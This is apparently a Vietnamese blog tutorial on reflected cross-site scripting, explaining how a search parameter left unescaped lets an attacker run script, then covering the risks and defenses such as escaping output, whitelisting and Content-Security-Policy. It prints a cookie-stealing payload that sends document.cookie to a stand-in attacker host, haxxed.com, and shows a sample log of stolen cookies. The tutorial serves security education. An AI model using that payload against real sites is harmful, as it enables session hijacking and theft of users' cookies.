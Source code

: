 # Tổng quan
Hello, khi xây dựng một website, bạn cần chắc chắn rằng không cho phép mã độc `Javascript` được trả ra. [Lần trước](https://viblo.asia/p/cross-site-scripting-Ljy5VpqMZra) mình đã có viết về Khác với `Stored-XSS`, `Reflected-XSS` đoạn mã khai thác sẽ không được lưu trữ trên server. `Stored-XSS` cho phép kẻ tấn công lưu trữ mã độc `JS` trên database của server, nó đồng nghĩa với việc những người dùng khác cũng bị ảnh hưởng khi truy cập vào trang có chứa mã độc.

Trong bài viết này, chúng ta sẽ tìm hiểu một cách tấn công nữa mà trong đó kẻ tấn công có thể sử dụng `XSS` để truyền mã độc `JS`, cách tấn công đó được gọi là `Reflected XSS`.

Nếu như website của bạn nhận request HTTP từ người dùng và hiển thị lại cho họ, như vậy là bạn đã kích hoạt một vectơ khác từ bên thứ ba có thể tiêm JavaScript độc hại. Cùng xem nó hoạt động thế nào nhé.

# Cách thức hoạt động
Nhân vật quen thuộc trong các bài viết của mình đó là **Mal**, đực rựa này tìm ra chức năng search trên trang web của bạn có vấn đề và hắn sẽ chén nó.

Hắn biết rằng từ khóa tìm kiếm trên URL sẽ được hiện thị trên trang kết quả tìm kiếm, và hắn cũng tự hỏi liệu nó đã `escaped` ?

![](https://images.viblo.asia/b5a97073-86d1-41fa-8724-3a83adca8edb.png)

Để kiểm, hắn sửa url với đoạn `snippet` `JS` trên search param: `www.welp.com?search=<script>window.location="http://www.haxxed.com?cookie="+document.cookie</script>`.

Khi hắn drops đường dẫn trên trình duyệt, đoạn `JS` được inject sẽ thực thi và chuyển hướng tới `haxxed.com?cookie=asFFEfn222fefeknladf` (site độc) ... yep, poor u :))

Bây giờ hắn tiến hành lừa ai đó, như **Vic** tội nghiệp - nhân vật bất hạnh trong [series](https://viblo.asia/s/to-da-hoc-bao-mat-co-ban-nhu-the-nao-68Z00JY2ZkG) này chẳng hạn :))

**Mal** gửi cho **Vic** email với đường dẫn đầy cám dỗ, và được trỏ tới đường dẫn đã được chỉnh sửa

![](https://images.viblo.asia/0d887f6a-c08a-479a-b367-62e640fb1851.png)

**Vic** click vào link, page render ra search parameter trong html mà không được `escape` đúng cách, nó sẽ tạo mới thẻ `<script>`
```html:webpage html
<div class="search-terms">
  Search results for "<script>
    window.location="http://www.haxxed.com?cookie="+document.cookie
  </script>"
</div>

<h6>No results found</h6>
```
Đoạn `script` được thực thi khi trang web được load, và không có **taco** nào cả :)) bạn được điều hướng tới một trang web độc kèm theo cookie. **Mal** sẽ kiểm tra server log và `hijack` `session` của  **Vic**
```:log
http://www.haxxed.com?cookie=asdfefefffasdfCsdfnE
http://www.haxxed.com?cookie=engkelfiAnlJreklfNkl
http://www.haxxed.com?cookie=SneklfjsdkleekflaAne
http://www.haxxed.com?cookie=asFFEfn222fefeknladf
```

# Rủi do
Đây là lỗi thường gặp, dễ khai thác, và nguy hiểm, nó không nguy hiểm bằng `stored XSS attacks` nhưng lại phổ biến hơn nhiều.

Lỗ hổng này rất dễ bị bỏ qua ở phần review lại  code, vì thường chúng ta sẽ kiểm tra chủ yếu phần data được lưu trữ. Bạn hãy đặc biệt cẩn thận trong việc kiểm tra các loại trang sau đây:
1. **kết quả tìm kiếm**
2. **Error pages**
3. **form submissions**

Ví dụ vừa rồi chúng ta đã thấy được lỗi xảy ra với phương thức `GET`, tuy nhiên `POST` request nên được kiểm tra cẩn thận. Kể cả khi bạn sử dụng CSRF thì kẻ tấn công vẫn có thể vượt qua bằng cách thức tấn công này.

# Bảo vệ
Hãy chắc cú rằng dynamic content trả ra không thể `inject` `Javascript`.

1. Escape dynamic content
2. Whitelist Values
3. Implement a Content-Security Policy

Với **Implement a Content-Security Policy** bạn có thể sử dụng thẻ `<meta>` trong `<head>` với nội dung sau:
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self' https://apis.google.com">
```

# Tổng kết
Trên đây là phần giới thiệu cơ bản về `Reflected-XSS`, hy vọng sẽ giúp bạn tránh được lỗi bảo mật này. Cảm ơn đã đọc hết, happy coding ! <3